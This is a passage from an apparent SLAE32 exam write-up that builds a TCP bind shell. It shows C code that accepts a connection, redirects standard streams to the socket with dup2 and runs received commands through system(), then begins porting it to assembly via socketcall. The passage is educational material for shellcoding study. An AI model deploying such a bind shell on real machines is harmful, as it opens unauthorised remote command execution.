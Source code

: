 int listen(int sockfd, int backlog);</code></pre><p>It accepts 2 arguments:</p>
<ol>
<li>the file descriptor of a TCP socket</li>
<li><em>the maximum length to which the queue of pending connections for sockfd may grow</em> (ref: <a href="https://man7.org/linux/man-pages/man2/listen.2.html">man page</a>)</li>
</ol>
<p>Before being able to receive data and execute commands, the socket has to accept a connection from incoming clients:</p>
<pre><code class="language-cpp">int client_socket_fd, bytes_read, size_client_socket_struct;
struct sockaddr_in client_address;

// accept incoming connections
size_client_socket_struct = sizeof(struct sockaddr_in);
client_socket_fd = accept(server_socket_fd, (struct sockaddr *)&amp;client_address, (socklen_t *)&amp;size_client_socket_struct);</code></pre><p>Accept a client connection and place its socket inside the variable <code>client_address</code>.</p><pre><code class="language-cpp">// redirect standard input/output/error to the socket
dup2(client_socket_fd, 0);
dup2(client_socket_fd, 1);
dup2(client_socket_fd, 2);</code></pre><p>I used <code>dup2</code> in order to redirect <code>stdin</code>, <code>stdout</code>, and <code>stderr</code> of the current shell towards the client socket, so it acts as an interactive shell.</p><p>What's missing now is the code that executes the commands sent by the client:</p><pre><code class="language-cpp">char client_command[1024] = {0};

char *const parmList[] = {"/bin/sh", "-c", client_command, NULL};
char *const envParms[] = {NULL};

// receive data from client (max 1024 bytes)
while ((bytes_read = recv(client_socket_fd, &amp;client_command, 1024, 0)) &gt; 0) {
    // execute client command
    system(client_command);
    memset(client_command, 0, sizeof(client_command));
}</code></pre><p>The loop right above checks if the client has sent any data. If so, it executes the command and sends <code>input</code>/<code>output</code>/<code>error</code> to the client socket.</p><p>Finally, it uses the function <code>memset</code> to clear the buffer that stores the command, in order to avoid previous commands from corrupting next ones.</p><p>The full C program can be found inside the <a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/1/attempt/first/shell_bind_tcp.c">repo created for this exam</a>.</p><h3 id="assembly">Assembly</h3><h4 id="socket-creation">Socket Creation</h4><p>The first function we need to convert into Assembly is <code>socket</code>. Unfortunately, there isn't a specific syscall that creates a socket, although there is one named <code>socketcall</code>. Follows an excerpt taken from its <a href="https://linux.die.net/man/2/socketcall">man page</a>:</p>
<blockquote>
<p><code>int socketcall(int call, unsigned long *args);</code></p>
<p><code>socketcall()</code> is a common kernel entry point for the socket system calls. <em>call</em> determines which socket function to invoke. <code>args</code> points to a block containing the actual arguments, which are passed through to the appropriate call.</p>
</blockquote>
<p>Based on this description and the function prototype, it seems we first need to find the right <code>call</code> value that references <code>socket()</code>. Although man pages don't list all the possible values for this argument (please contact me if you find them inside the man pages), we can take a look at the source code of the Linux kernel.</p>
<p>To be more specific, <a href="https://github.com/torvalds/linux/blob/master/net/socket.c#L2901">this page</a> contains the implementation of the <code>socketcall</code> function, listing several possible value for the argument <code>call</code>:</p>
<pre><code class="language-cpp">// ...

